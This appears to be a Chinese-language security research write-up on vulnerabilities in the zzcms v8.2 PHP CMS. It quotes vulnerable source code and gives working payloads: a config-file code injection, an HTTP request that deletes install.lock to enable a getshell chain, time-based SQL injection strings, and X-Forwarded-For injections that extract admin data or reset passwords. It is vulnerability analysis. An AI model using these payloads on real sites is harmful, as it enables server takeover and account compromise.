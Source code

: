# zzcms v8.2 && zzcms xmv8.2
## source code
链接:https://pan.baidu.com/s/1PQGSBjWJhJiMaLdqoLTYpA  密码:kxgx
## vulnerablilty source
1. 组合getshell http://www.freebuf.com/column/166525.html
2. SQL注入 http://www.freebuf.com/vuls/161888.html

## fingerprint
`http://url/image/zzcms-color.gif`

# analysis

### install 配置文件任意内容写入
install/index.php 91
```
case '5'://安装进度
		function dexit($msg) {
			echo '<script>alert("'.$msg.'");window.history.back();</script>';
			exit;
		}
		
		$conn=connect($db_host,$db_user,$db_pass,'',$db_port);
		if(!$conn) dexit('无法连接到数据库服务器，请检查配置');
		$db_name or dexit('请填写数据库名');
		if(!select_db($db_name)) {
			if(!query("CREATE DATABASE $db_name")) dexit('指定的数据库不存在\n\n系统尝试创建失败，请通过其他方式建立数据库');
		}
		
		//保存配置文件
		$fp="../inc/config.php";
		$f = fopen($fp,'r');
		$str = fread($f,filesize($fp));
		fclose($f);
		$str=str_replace("define('sqlhost','".sqlhost."')","define('sqlhost','$db_host')",$str) ;
		$str=str_replace("define('sqlport','".sqlport."')","define('sqlport','$db_port')",$str) ;
		$str=str_replace("define('sqldb','".sqldb."')","define('sqldb','$db_name')",$str) ;
		$str=str_replace("define('sqluser','".sqluser."')","define('sqluser','$db_user')",$str) ;
		$str=str_replace("define('sqlpwd','".sqlpwd."')","define('sqlpwd','$db_pass')",$str) ;
		$str=str_replace("define('siteurl','".siteurl."')","define('siteurl','$url')",$str) ;
		$str=str_replace("define('logourl','".logourl."')","define('logourl','$url/image/logo.png')",$str) ;
		$f=fopen($fp,"w+");//fopen()的其它开关请参看相关函数
		fputs($f,$str);//把替换后的内容写入文件
		fclose($f);
		//创建数据
		include 'step_'.$step.'.php';
		break;
```
写入位置`$url`,将闭合字符串，类似`');phpinfo();//`

### 任意文件删除
`grep -i -r 'unlink(' *` 查找文件删除函数，具体可以找到几个前台的点，`user/del.php`,`user/ppsave.php`,`user/ztconfig.php`,`user/zssave.php`
这里拿user/ztconfig.php做分析
user/ztconfig.php 68
```
if($oldbannerbg<>$bannerbg && $oldbannerbg<>"/image/nopic.gif" && $oldbannerbg<>"" ) {
	$f="../".$oldbannerbg;
	if(file_exists($f)){
	unlink($f);
	}
}
```
用burp生成数据包
```
POST /user/ztconfig.php HTTP/1.1
Host: 10.254.254.254
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: XDEBUG_SESSION=XDEBUG_ECLIPSE; bdshare_firstime=1522576407866; PHPSESSID=sg029uce7fh0o0f2s3jch4r575; UserName=admin; PassWord=0192023a7bbd73250516f069df18b500
Content-Type: application/x-www-form-urlencoded
Content-Length: 51

action=modify&oldimg=install/install.lock&img=123
```
删除了install.lock，利用上面的配置文件写入造成getshell(注意这里需要cookie有用户信息，也就是先登陆)

### SQL注入
由于系统对_GET、_POST、_COOKIE过了一边zc_check，所以只能尝试找数字型或者不用闭合单双引号的点
user/del.php 139
```
$sql="select id,editor from ".$tablename." where id ='$id'";
```
其中tablename可控，构造payload即可，其中zzcms_answer有同样的键
`zzcms_answer where if(1,sleep(5),1)+--+`

### 登陆处盲注(复现时发现的另一个漏洞，后来发现已经有前辈发现了)
造成漏洞的函数getip(), inc/function.php  100
```
function getip(){ 
    if (getenv("HTTP_CLIENT_IP") && strcasecmp(getenv("HTTP_CLIENT_IP"), "unknown"))
        $ip = getenv("HTTP_CLIENT_IP");
    else if (getenv("HTTP_X_FORWARDED_FOR") && strcasecmp(getenv("HTTP_X_FORWARDED_FOR"), "unknown"))
        $ip = getenv("HTTP_X_FORWARDED_FOR");
    else if (getenv("REMOTE_ADDR") && strcasecmp(getenv("REMOTE_ADDR"), "unknown"))
        $ip = getenv("REMOTE_ADDR");
    else if (isset($_SERVER['REMOTE_ADDR']) && $_SERVER['REMOTE_ADDR'] && strcasecmp($_SERVER['REMOTE_ADDR'], "unknown"))
        $ip = $_SERVER['REMOTE_ADDR'];
    else
        $ip = "unknown";
    return($ip);
} 
```
未对ip做检验，查找一下getip()的调用，发现user/logincheck.php 18
```
$ip=getip();
define('trytimes',5);//可尝试登录次数
define('jgsj',10*60);//间隔时间，秒
$sql="select * from zzcms_login_times where ip='$ip' and count>=".trytimes." and unix_timestamp()-unix_timestamp(sendtime)<".jgsj." ";
$rs = query($sql); 
$row= num_rows($rs);
```
直接带入SQL查询，造成SQL盲注。payload可以放在X-Forwarded-For处
如 `X-Forwarded-For: 127.0.0.4' and if((select substr(admin,1,1) from zzcms.zzcms_admin limit 1)='a',sleep(5),1) -- +`

#### 关于getip()的另一种利用方式
除了上面带入select查询，发现还有update语句，所以可以同样更新用户账户密码。
step 1 找到目标用户名，创建一个与目标用户相同的用户(虽然有检验，但是可以通过最后发送前的修改，导致相同用户名的创建)
step 2 X-Forwarded-For处带上payload，如 `127.0.0.1',password='xxxx`

# PoC
continue